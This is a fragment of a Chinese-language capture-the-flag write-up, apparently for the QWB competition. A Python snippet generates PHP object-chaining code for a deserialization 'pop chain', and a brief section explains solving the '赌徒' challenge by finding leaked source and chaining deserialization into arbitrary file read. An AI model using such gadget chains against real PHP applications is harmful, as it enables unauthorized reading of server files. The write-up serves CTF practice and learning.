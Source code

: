 ```

 

check_santi(func_split_aa)

print("ok")

 

#生成popchain的php代码

gen_str = ""

last_class_name = popchain[0]['new_class']

cnt = 0

for i in popchain:

    if cnt == 0:

        gen_str += "$"+i["name"]+"test" +" = new "+i["name"]+"();"

        gen_str += "$"+i["name"]+"test-&gt;"+i["member"]+"= new "+last_class_name+"();"

        last_class_name = i["name"]

        cnt+=1

        continue

    gen_str += "$"+i["name"]+"test" +" = new "+i["name"]+"();"

    gen_str += "$"+i["name"]+"test-&gt;"+i["member"]+"= $"+last_class_name+"test;"

    last_class_name = i["name"]

 

print(gen_str)
```



## [强网先锋]赌徒

进行路径扫描获得 www.zip, 拿到题目源码，是一个简单的反序列化漏洞。可以构造反序列化链进行任意文件读取，直接读 flag, 得到两个脏字节 (hi)+base64 串，解开 base64 串即可获得 flag。

## [强网先锋]寻宝
